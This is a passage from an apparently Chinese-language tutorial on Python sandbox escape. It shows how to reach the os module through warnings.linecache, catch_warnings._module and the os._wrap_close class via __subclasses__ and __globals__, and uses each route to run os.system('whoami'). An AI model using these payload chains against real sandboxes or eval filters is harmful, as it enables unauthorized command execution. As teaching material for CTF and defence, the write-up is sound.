 os 又回来了。并且 site 中还有 `__builtins__`。

这个方法不仅限于 A->os，还阔以是 A->B->os，比如 2.x 中的 `warnings`：

```python
>>> import warnings
>>> 
>>> warnings.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'module' object has no attribute 'os'
>>> 
>>> warnings.linecache
<module 'linecache' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/linecache.pyc'>
>>>
>>> warnings.linecache.os
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>
```

在继承链中就可以这样（ py3.x 中已经移除了这里 `__globals__` 的 `linecache`）：

```python
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]
```

顺便说一下，`warnings`这个库中有个函数：`warnings.catch_warnings`，它有个`_module`属性：

```python
    def __init__(self, record=False, module=None):
...
        self._module = sys.modules['warnings'] if module is None else module
...
```

所以通过`_module`也可以构造 payload（py3.x 中已经移除了 `catch_warnings` 的 `linecache`）：

```python
>>> [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.linecache.os.system('whoami')
macr0phag3
0
```

3.x 中的`warnings`虽然没有 `linecache`，也有`__builtins__`。

同样，py3.x 中有`<class 'os._wrap_close'>`，利用方式可以为：

```python
>>> ''.__class__.__mro__[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_wrap_close"][0].__init__.__globals__['system']('whoami')
```

当然这样也是可以的（3.x）：

```python
set.mro()[-1].__subclasses__()[133].__init__.__globals__['system']('whoami')
```

顺便提一下，`object` 本来就是可以使用的，如果没过滤的话，payload 可以再简化为：